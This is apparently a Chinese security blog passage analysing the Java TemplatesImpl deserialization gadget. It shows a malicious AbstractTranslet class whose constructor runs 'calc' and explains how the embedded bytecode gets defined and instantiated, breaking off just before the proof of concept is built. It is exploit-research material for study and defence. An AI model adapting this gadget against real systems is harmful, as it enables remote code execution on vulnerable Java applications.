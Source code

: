 ## 分析

先编写一个恶意类：

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evi extends AbstractTranslet{
    public  Evi() {
        super();
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

这里留个疑问，为什么恶意类要继承`AbstractTranslet` 

根据网上先辈们的分析，主要利用了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`这个类

这个类中存在一个`defineTransletClasses`方法，loader.defineClass()方法返回的值存储在_class中，参数`_bytecodes`是一个字节码

大概是将`_bytecodes`中存储的恶意字节码转换为Class对象，并存入_class属性中

![image-20230623181252085](https://raw.githubusercontent.com/todis21/image/main/image-20230623181252085.png)



存储了有啥用呢？如果这个字节码是恶意的字节码，也需要加载才能利用啊

继续看`TemplatesImpl`类的另外一个方法`getTransletInstance`

![image-20230623182540379](https://raw.githubusercontent.com/todis21/image/main/image-20230623182540379.png)

这个方法中调用了刚刚的`defineTransletClasses`方法，把字节码转换为Class对象，并存入_class属性中

然后调用了`newInstance`加载Class对象

思路到这里就可以先构造一下POC
